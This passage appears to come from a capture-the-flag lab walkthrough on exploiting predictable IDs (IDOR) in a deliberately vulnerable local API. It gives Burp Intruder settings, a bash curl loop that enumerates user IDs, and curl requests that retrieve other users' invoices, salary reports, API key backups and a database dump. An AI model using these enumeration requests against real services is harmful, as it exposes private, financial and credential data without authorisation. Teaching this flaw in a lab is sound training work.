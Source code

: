 **Using Burp Suite Intruder:**
1. Send request to Intruder (Ctrl+I)
2. Set attack type to "Sniper"
3. Add payload position: `userId=§1001§`
4. Payloads tab → Payload type: Numbers
5. Set range: 1001-1010 (sequential)
6. Start attack
7. Examine all responses for different user data

**Using bash script:**
```bash
for id in {1001..1010}; do
  echo "Testing User ID: $id"
  curl "http://localhost:5000/api/vuln/api-predictable-ids?userId=$id"
  echo "\n---"
done
```

**Explanation:** Predictable IDs make it trivial to enumerate all users in the system.

#### Step 4: Access Invoice Data
**Objective:** Access other users' financial documents

**Using curl:**
```bash
# Access your invoice
curl "http://localhost:5000/api/vuln/api-predictable-ids?invoiceId=5001"

# Access another user's invoice (IDOR)
curl "http://localhost:5000/api/vuln/api-predictable-ids?invoiceId=5002"
```

**Flag:** `FLAG{idor_invoice_access}`
**Exposed data:**
- Invoice amounts ($50,000 contract)
- Customer details
- Payment information
- Billing addresses

**Explanation:** Financial documents accessible by simply incrementing invoice IDs.

#### Step 5: Access Confidential Documents
**Objective:** Access highly restricted documents

**Using curl:**
```bash
# Public document
curl "http://localhost:5000/api/vuln/api-predictable-ids?docId=9001"

# Salary report (CONFIDENTIAL)
curl "http://localhost:5000/api/vuln/api-predictable-ids?docId=9002"

# Company financials
curl "http://localhost:5000/api/vuln/api-predictable-ids?docId=9003"

# API keys backup
curl "http://localhost:5000/api/vuln/api-predictable-ids?docId=9004"

# Database dump
curl "http://localhost:5000/api/vuln/api-predictable-ids?docId=9005"
```
